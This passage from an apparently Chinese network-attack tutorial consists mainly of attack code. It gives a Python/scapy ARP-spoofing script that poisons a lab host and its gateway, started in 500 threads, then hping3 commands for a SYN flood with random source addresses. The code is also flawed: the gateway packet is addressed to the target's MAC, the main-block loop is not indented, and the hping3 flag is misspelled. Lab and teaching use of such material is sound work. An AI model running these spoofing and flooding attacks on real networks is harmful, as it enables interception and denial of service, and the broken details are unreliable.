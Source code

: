 - python代码实现

  ```python
  def arp_spoof():
      iface = "VMware Virtual Ethernet Adapter for VMnet8"
      
      # 被攻击主机的IP和mac
      target_ip = '192.168.101.129'
      target_mac = '00:0c:29:ce:54:b6'
      
      # 攻击主机的mac
      spoof_mac = '00:0c:29:42:2b:fc'
      
      # 网关IP
      gateway_ip = '192.168.101.1'
      # 用scapy内置函数通过IP获取mac
      gateway_mac = getmacbyip(gateway_ip)
      # 构造两个数据包，实现对被动技主机和网关的欺骗
      
      while True:
          # op=1代表ARP请求，op=2代表ARP响应
          # 欺骗被攻击主机
          packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
          sendp(packet,iface=iface)
          
          # 欺骗网关
          packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
          sendp(packet,iface=iface)
          
          time.sleep(1)
     
  
  if __name__ == '__main__':
  for i in range(500):
      threading.Thread(target=arp_spoof).start()
  ```


## 四、使用工具

### 1.hping3

- syn+随机IP泛洪

    ```shell
    hping3 --flood -S --rand-sorce -p 端口 目标IP
    hping3 -c 10000 -d 120 -S -p 80 --flood --rand-sorce 192.168.101.2

    -c  ->  发送的数量
    -d  ->  包的大小
    -S  ->  只发送SYN包
    -p  ->  指定目标端口
    --flood  ->  不显示回应，泛洪模式
    --rand-sorce  ->  使用随机的源IP
    ```
